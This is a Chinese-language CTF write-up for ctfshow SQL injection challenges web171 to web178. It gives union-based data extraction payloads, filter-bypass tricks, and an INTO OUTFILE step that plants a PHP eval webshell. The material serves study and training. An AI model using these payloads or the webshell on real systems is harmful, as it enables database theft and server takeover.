### web171

无过滤的字符型注入。  
无过滤的话，可以先用单引号逃逸出来，接着用`or 1=1` 来永远符合条件，最后用注释防止 limit 的影响

payload:

```
1’or 1=1 --+
1'or'1'='1
9999' or id ='26
```

标准做法

> 本地调试把加号改成空格，URL 编码过程中，空格通常会被转换为加号（+），因此我们传参可以用加号

```sql
爆出有哪些位置可以进行输出数据
1' order by 3--+
查看数据库名字
1' union select 1,2,database()--+
// ctfshow_web
爆破表名： 1
-1' union select 1,2,group_concat(table_name) FROM information_schema.tables where table_schema=database()--+
// ctfshow_user
爆破列名：
1' union select 1,2,group_concat(column_name) FROM information_schema.columns where table_schema=database() and table_name='ctfshow_user'--+
// id,username,password
爆破数据：
1' union select 1,2,group_concat(id,username,password) FROM ctfshow_user--+
```

找到 flag。




### web172

开启容器

尝试上题 payload 失败
因为直接`-1' or 1=1 --+` flag 字段会被过滤，
但是只要回显不输出 username 就可以绕过过滤



```sql
爆出有哪些位置可以进行输出数据
1' order by 2--+
爆破表名
-1' union select 2,group_concat(table_name) FROM information_schema.tables where table_schema=database()--+
// ctfshow_user,ctfshow_user2
爆破列名
-1' union select 2,group_concat(column_name) FROM information_schema.columns where table_schema=database() and table_name='ctfshow_user2'--+
// id,username,password
爆破flag
-1' union select 2,group_concat(password) FROM ctfshow_user2 where username='flag'--+
// ctfshow{9a6fd71f-2bb6-417f-b46f-a1c906476499}
```



### web173

这次将所有回显过滤 flag，直接编码绕过或者如上题只显示 password 列即可，但其他题目中肯定不起作用

mysql 中用`to_base64`

首先确认是三列

```sql
1' order by 3--+
```

思路一：对查询数据做限定，因为已经知道了，在密码一栏中没有`flag`，就如同 172 最后

`1' union select 1,2,group_concat('+',password) from ctfshow_user3 where username='flag'--+`

思路 2：编码绕过,base64，hex 都可以

`1' union select 1,2,to_base64(password) from ctfshow_user3 where username='flag'--+`
`-1' union select 1,to_base64(username),hex(password) from ctfshow_user3 --+`



### web174

```
//检查结果是否有flag
    if(!preg_match('/flag|[0-9]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

不允许有数字

替换：将数据 to_base64 加密，然后将里面所有的数字用 replace()替换

替换方式：`1 testa`,`2 testb` `3 testc`等等

`-1' union select replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(to_base64(password),2,'testb') ,3,'testc') ,4,'testd') ,5,'teste') ,6,'testf') ,7,'testg') ,8,'testh') ,9,'testi') ,0,'testj') ,1,'testa'),replace(1,'1','testa') from ctfshow_user4 where username='flag'--+`





### web175

```
//检查结果是否有flag
    if(!preg_match('/[\x00-\x7f]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

将数据输出到一个文件中，然后访问对应文件

```
-1' union select  username,password from ctfshow_user5 into outfile "/var/www/html/1.txt"--+
```



还可以直接传入一句话木马

```
-1' union select 1,"<?php eval($_POST[1]);?>" into outfile "/var/www/html/1.php
-1' union select 1,from_base64("%50%44%39%77%61%48%41%67%5a%58%5a%68%62%43%67%6b%58%31%42%50%55%31%52%62%4d%56%30%70%4f%7a%38%2b") into outfile '/var/www/html/1.php

```





看数据库信息



连接蚁剑



### web176

万能密码直接查到
`-1' or username='flag`

`1' or 1=1--+`也没被过滤

### web177

空格被过滤，就相当于把注释符`-- `给过滤掉
用`/**/`或者是`%0a`（回车）或者`%09`（tab）来绕过空格的过滤，`%23`（#）来绕过注释符的过滤

#### 解法一：万能密码

`1'or/**/1=1%23`

`/**/绕过空格`




#### 解法二：正常查询

`1'/**/union/**/select/**/1,2,password/**/from/**/ctfshow_user/**/where/**/username='flag'%23`





### web178

过滤了空格与`*`号等用`%09`（tab）、`%0a`（回车）绕过
id=1'or'1'='1'%23



payload: `1'%09union%09select%091,2,(select%09password%09from%09ctfshow_user%09where%09username%09=%09'flag')%09%23`


